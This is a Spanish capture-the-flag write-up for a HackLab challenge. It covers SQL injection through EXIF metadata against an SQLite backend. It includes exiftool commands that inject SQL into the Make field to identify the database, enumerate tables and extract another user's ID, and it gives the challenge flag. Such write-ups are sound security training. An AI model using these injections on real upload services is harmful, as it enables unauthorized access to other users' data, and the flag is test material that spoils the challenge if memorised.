





# Desafío 27 - Mis viajes

**Plataforma:** HackLab (SoftwareSeguro)  
**Categoría:** SQL Injection  

## Análisis

Similar al desafío 20, la inyección SQL se realiza vía metadatos EXIF sobre un backend SQLite. En este caso el objetivo es encontrar el `user_id` de otro usuario con imágenes subidas.

Formato de ID del usuario: `d6ac9cd7-03d8-4a95-a73f-41a02f09d210`

## Explotación

Primero se verifica el motor de base de datos:

```bash
exiftool -Make="',(SELECT sqlite_version())) --" -Model="payload_model" test.jpg_original
```

Resultado: versión `3.40.1` → SQLite.






Se enumeran las tablas de `sqlite_master`:

```bash
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 0)||'" test.jpg_original
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 1)||'" test.jpg_original
```



```bash
exiftool -Make="'||(SELECT name FROM sqlite_master LIMIT 1 OFFSET 2)||'" test.jpg_original
exiftool -Make="'||(SELECT sql FROM sqlite_master WHERE name='images')||'" test.jpg_original
```



Se obtiene el `user_id` de la tabla `images`:

```bash
exiftool -Make="'||(SELECT user_id FROM images LIMIT 1)||'" test.jpg_original
```

ID encontrado:

```
1089b4a3-b6d0-450d-9c8a-b120b30bcb04
```


Se copia el ID del usuario y se envía al endpoint correspondiente.




## Flag

```
878c14bbd5cd0127b86fd8dac1d55c4d
```
